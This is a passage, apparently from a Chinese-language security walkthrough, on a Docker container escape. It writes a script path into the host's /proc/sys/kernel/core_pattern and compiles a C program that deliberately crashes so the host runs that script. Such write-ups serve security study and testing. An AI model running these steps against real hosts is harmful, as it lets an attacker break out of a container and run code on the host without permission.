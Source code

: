 ![](assets/1703484795-0515312636f58457af5e0bfb15437b6c.png)

接下来赋权并且将该脚本写到目标的 proc 目录下

![](assets/1703484795-5caef9c614bfd7222ac7b7af90fdba92.png)

```php
echo -e "|/var/lib/docker/overlay2/
a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged/tmp/.ning.py
\rcore " >  /host/proc/sys/kernel/core_pattern
```

然后我们使用 c 写一个可以触发崩溃的程序

```php
vim ning.c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
gcc ning.c -o ning
chmod 777 ning
```

